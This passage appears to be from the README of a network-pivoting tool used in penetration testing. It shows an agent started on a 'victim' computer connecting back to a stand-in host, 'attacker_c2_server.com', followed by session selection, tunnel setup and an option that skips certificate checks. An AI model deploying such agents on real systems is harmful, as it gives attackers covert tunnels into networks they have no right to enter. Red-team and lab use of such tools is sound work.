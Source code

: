 When running selfcert, you can run the `certificate_fingerprint` command to print the currently used certificate fingerprint.

```
ljpos-li » certificate_fingerprint 
INFO[0203] TLS Certificate fingerprint for ljpos is: D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC 
```

On the agent, you can then connect using the fingerprint provided by the Ljpos-li proxy.

```
ljpos-agent -connect 127.0.0.1:11601 -v -accept-fingerprint D005527D2683A8F2DB73022FBF23188E064493CFA17D6FCF257E14F4B692E0FC                                               nchatelain@nworkstation
INFO[0000] Connection established                        addr="127.0.0.1:11601"
```

> By default, the "ljpos" domain name is used for TLS Certificate generation. You can change the domain by using the -selfcert-domain [domain] option at startup.

***Ignoring all certificate verification (for lab/debugging)***

To ignore all security mechanisms, the `-ignore-cert` option can be used with the *agent*.

> Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.
### Using Ljpos-li

#### Start the agent

Start the *agent* on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```

> If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.

A session should appear on the *proxy* server.

``` 
INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000"
```

Use the `session` command to select the *agent*.

```
ljpos-li » session 
? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000
```

#### Start the tunneling

Start the tunnel on the proxy, using the `evil-cha` interface name.

```
[Agent : nchatelain@nworkstation] » tunnel_start --tun evil-cha
[Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   
```
> On macOS, you need to specify a utun[0-9] device, like utun4.
